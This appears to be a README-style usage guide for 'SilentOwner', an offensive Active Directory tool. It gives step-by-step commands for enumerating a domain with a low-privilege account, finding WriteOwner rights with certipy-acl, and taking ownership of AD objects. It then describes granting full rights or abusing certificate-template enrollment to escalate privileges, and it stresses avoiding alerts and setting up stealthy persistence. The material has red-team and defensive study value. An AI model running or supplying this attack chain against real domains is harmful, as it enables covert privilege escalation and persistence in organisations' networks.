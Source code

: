 # 🧩 USAGE STRATEGY — SilentOwner

This guide explains how to **maximize the power of SilentOwner** by chaining it with stealth LDAP enumeration tools like `certipy-acl`.

> 🧬 Goal: Use **WriteOwner** to quietly take over AD objects — and pave the way to **persistence** or **privilege escalation** — all without triggering alerts.

---

## 1. 🔓 Step One — Low-Privileged LDAP Bind

Start with any domain account — no admin needed.

```bash
ldapsearch -H ldap://<DC_IP> \
  -D 'user@domain.local' \
  -w 'password' \
  -b "DC=domain,DC=local" \
  "(objectClass=user)" sAMAccountName objectSid
```

This gives you:
- Usernames and their SIDs
- Group objects (optional)
- The **Domain SID**, which all object SIDs will share

---

## 2. 🔎 Step Two — Run `certipy-acl`

Use your account with `certipy-acl` to discover where you have **WriteOwner**.

```bash
python3 -m certipy_tool \
  -u 'user@domain.local' \
  -p 'password' \
  -target domain.local \
  -dc-ip <DC_IP> \
  --filter-sid <YOUR_SID> \
  --resolve-sids
```

✅ Look for output like:

```text
[ACL] CN=SomeGroup,...
  [ACE] Type: ACCESS_ALLOWED, Mask: 0x80000, SID: <your SID>
    [+] WriteOwner
```

---

## 3. 🧬 Step Three — Run SilentOwner

Now you know:
- The object DN you can take over
- Your own SID

Use `SilentOwner.py` to **replace the OwnerSID** without modifying ACEs.

```bash
python3 SilentOwner.py \
  --dc-ip <DC_IP> \
  -u 'user@domain.local' \
  -p 'password' \
  --domain domain.local \
  --target-dn 'CN=TargetGroup,CN=Users,DC=domain,DC=local' \
  --new-owner-sid '<YOUR_SID>'
```

SilentOwner will:
- Pull the `nTSecurityDescriptor`
- Replace only the `OwnerSID`
- Write it back via `ldap.modify()`

---

## 4. 🧱 Step Four — Post-Takeover

After becoming owner, **you can grant yourself full rights** using another tool:

### Option A: Inject ACE with `inject_ace.py`
Inject `GenericAll` or `WriteDACL` to the object's DACL (planned future feature)

### Option B: Abuse Ownership for AD CS
If the object is a group with **Enroll** rights over a Certificate Template:
- Add yourself to the group
- Request cert → authenticate → pivot

---

## 🔁 Recap Flow

```
🧠 LDAP SID extraction
   │
   └───▶ 🎯 certipy-acl → find WriteOwner over object
           │
           └───▶ 🧬 SilentOwner → set yourself as new owner
                     │
                     └───▶ 🧱 Inject ACEs or abuse group privileges
```

---

## 🔒 Stay Stealthy

✅ SilentOwner modifies **only** the OwnerSID, using `SDFlags=0x01`  
✅ No ACE injection, no shell, no PowerShell, no beacon  
✅ Ideal for red teamers and stealthy persistence setup

---

📚 Created by [xploitnik](https://github.com/xploitnik)  
Contributions welcome — feel free to submit new strategy flows, tools, or scripts!


